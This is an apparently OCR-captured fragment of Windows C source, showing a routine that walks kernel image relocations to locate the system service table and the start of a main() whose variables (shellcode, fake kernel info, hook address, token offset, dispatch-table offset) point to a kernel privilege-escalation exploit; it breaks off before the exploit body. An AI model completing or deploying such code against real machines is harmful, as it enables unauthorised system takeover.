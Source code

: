 pSystemModuleInformation++;
}

free(pBuffer);
return 0;
}

ULONG GetServiceTable(PVOID pImageBase, ULONG Address)
{
PIMAGE_NT_HEADERS        pNtHeaders;
PIMAGE_BASE_RELOCATION        pBaseRelocation;
PIMAGE_FIXUP_ENTRY        pFixupEntry;
ULONG        RelocationTableSize = 0;
ULONG        Offset, i, VirtualAddress, Rva;

Offset = Address - (ULONG)pImageBase;
pNtHeaders = (PIMAGE_NT_HEADERS)RtlImageNtHeader(pImageBase);
pBaseRelocation = (PIMAGE_BASE_RELOCATION)RtlImageDirectoryEntryToData(pImageBase, TRUE, IMAGE_DIRECTORY_ENTRY_BASERELOC, &RelocationTableSize);
if(pBaseRelocation == NULL)
return 0;

do
{
pFixupEntry = (PIMAGE_FIXUP_ENTRY)((ULONG)pBaseRelocation + sizeof(IMAGE_BASE_RELOCATION));

RelocationTableSize = (pBaseRelocation->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) >> 1;
for(i = 0; i < RelocationTableSize; i++, pFixupEntry++)
{
if(pFixupEntry->Type == IMAGE_REL_BASED_HIGHLOW)
{
VirtualAddress = pBaseRelocation->VirtualAddress + pFixupEntry->Offset;
Rva = *(PULONG)((ULONG)pImageBase + VirtualAddress) - (ULONG)pNtHeaders->OptionalHeader.ImageBase;

if(Rva == Offset)
{
if (*(PUSHORT)((ULONG)pImageBase + VirtualAddress - 2) == 0x05c7)
return *(PULONG)((ULONG)pImageBase + VirtualAddress + 4) - pNtHeaders->OptionalHeader.ImageBase;
}
}
}

*(PULONG)&pBaseRelocation += pBaseRelocation->SizeOfBlock;

} while(pBaseRelocation->VirtualAddress);

return 0;
}

int main(int argc, char* argv[])
{
PVOID                pDrivers[256];
PVOID                pOldKernelInfo, pMapAddress = NULL;
PULONG        pStoreBuffer, pShellcode, pFakeKernelInfo;
PUCHAR        pRestoreBuffer, pBase, FunctionAddress;
PROCESS_BASIC_INFORMATION pbi;
SYSTEM_MODULE_INFORMATION        smi;
SECTION_BASIC_INFORMATION sbi;
KPROFILE_SOURCE        ProfileSource;
OSVERSIONINFO        ovi;
char                DriverName[256], KernelName[64];
ULONG                Byte, len, i, j, k, BaseAddress, Value, KernelBase, buf[64];
ULONG                HookAddress, SystemId, TokenOffset, Sections, Pid, FunctionNumber;
ULONG                HDTOffset, AllocationSize;
ULONG                Result;
HANDLE        hKernel;
WSADATA        wsad;
int                sockfd;